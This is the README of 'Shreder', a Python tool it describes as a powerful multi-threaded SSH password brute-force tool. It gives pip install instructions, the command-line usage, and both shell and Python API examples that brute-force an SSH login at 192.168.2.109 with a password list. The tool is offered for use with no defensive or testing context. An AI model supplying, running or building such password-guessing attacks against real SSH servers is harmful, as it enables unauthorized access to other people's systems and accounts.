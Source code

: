 # Shreder

<p>
    <a href="https://trhacknon.netlify.app">
        <img src="https://img.shields.io/badge/développer-trhacknon-3572a5.svg">
    </a>
    <a href="https://github.com/trhacknon/Shreder">
        <img src="https://img.shields.io/badge/language-Python-3572a5.svg">
    </a>
    <a href="https://github.com/trhacknon/Shreder/stargazers">
        <img src="https://img.shields.io/github/stars/trhacknon/Shreder?color=yellow">
    </a>
</p>

Shreder is a powerful multi-threaded SSH protocol password brute-force tool.

## Features

* Very fast password guessing, just one password in `0.1` second.
* Optimized for big password lists, Shreder tries 1000 passwords in `1` minute and `40` seconds.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/trhacknon/Shreder
```

## Basic usage

To use Shreder just type `shreder` in your terminal.

```
usage: shreder [-h] [-p PORT] [-u USERNAME] [-l LIST] [-d DELAY] target

Shreder is a powerful multi-threaded SSH protocol password brute-force tool.

positional arguments:
  target

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  SSH port.
  -u USERNAME, --username USERNAME
                        SSH username.
  -l LIST, --list LIST  Passwords list.
  -d DELAY, --delay DELAY
                        Delay between login attempts.
```

### Examples

**Brute-forcing single target**

Let's brute-force my device just for fun.

```shell
shreder 192.168.2.109 -u mobile -l passwords.txt
```

## API usage

Shreder also has their own Python API that can be invoked by importing Shreder to your code.

```python
from shreder import Shreder
```

### Basic functions

There are all Shreder basic functions that can be used to brute-force single target.

* `connect(host, port, username, password)` - Connect single target by given address.
* `brute(host, port, username, dictionary, delay)` - Brute-force single target by given address.

### Examples

**Brute-forcing single target**

```python
from shreder import Shreder

shreder = Shreder()
password = shreder.brute('192.168.2.109', 22, 'mobile', 'passwords.txt')

print(password)
```
